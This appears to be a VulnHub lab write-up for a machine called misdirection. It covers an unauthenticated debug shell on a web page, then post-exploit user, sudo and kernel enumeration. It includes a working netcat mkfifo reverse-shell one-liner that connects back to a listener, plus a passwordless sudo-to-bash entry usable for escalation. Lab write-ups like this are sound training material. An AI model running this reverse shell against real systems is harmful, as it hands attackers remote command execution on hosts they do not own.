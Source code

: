 ![](../../assets/img/vulnhub/mis3.png)


Using a netcat listener and netcat on the system, we can acquire a reverse shell on the /debug page.

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.2 443 >/tmp/f`

# Exploit

A globally open debug shell on the web server permits an attacker to execute commands on the host without authentication.

![](../../assets/img/vulnhub/mis4.png)

![](../../assets/img/vulnhub/mis5.png)

# Post-Exploit Enumeration

## Current User

```uid=33(www-data) 
gid=33(www-data) groups=33(www-data)

Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
```


# OS & Kernel

```yml
NAME="Ubuntu"
VERSION="18.04.2 LTS (Bionic Beaver)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04.2 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
    
Linux misdirection 4.15.0-50-generic #54-Ubuntu SMP Mon May 6 18:46:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

